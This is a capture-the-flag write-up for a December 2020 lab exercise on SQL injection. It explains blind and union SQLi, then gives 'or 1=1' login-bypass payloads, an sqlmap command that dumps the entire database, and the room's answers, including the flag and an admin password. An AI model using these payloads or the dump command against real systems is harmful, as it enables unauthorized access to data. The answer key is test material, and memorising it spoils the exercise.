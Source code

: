 # Day 5 - Someone stole Santa's gift list!

**Date:** 05, December, 2020

**Author:** Dhilip Sanjay S

---
## Fundamentals
- SQLi
1. Blind SQLi
    - Developers mitigate SQL Injection by restricting an application from displaying any error.
    - You can cause some observable changes using SLEEP(), SUBSTR() function, etc.
    - Error = 'No', No Error = 'Yes'

2. Union SQLi
    - Used for fast database enumeration
    - 3 steps:
        - Finding the number of columns: `ORDER BY/ UNION SELECT`
        - Checking if the columns are suitable: Replace with string in `UNION SELECT`
        - Attack and get some interesting data.

- Use [SQLMAP](https://github.com/sqlmapproject/sqlmap)
---

## Solutions
### Without using directory brute forcing, what's Santa's secret login panel?
- **Answer:** /santapanel

---

### Visit Santa's secret login panel and bypass the login using SQLi
- **Payload:** `abc' or 1=1 --`
- Alternatively, run **SQLMAP (1.2.4)** command:
```bash
sqlmap -r request-file --tamper=space2comment --dump-all
```
--- 

### How many entries are there in the gift database?
- **Answer:** 22
- **Steps to reproduce:** 
    - SQLMAP show all the entries in the table or use the payload below
    - **Payload:** `hi' or 1=1 --`
---

### What did Paul ask for?
- **Answer:** Github Ownership
- Check the table.
---

### What is the flag?
- **Answer:** thmfox{All_I_Want_for_Christmas_Is_You}

---

## What is admin's password?
- **Answer:** EhCNSWzzFP6sc7gB

---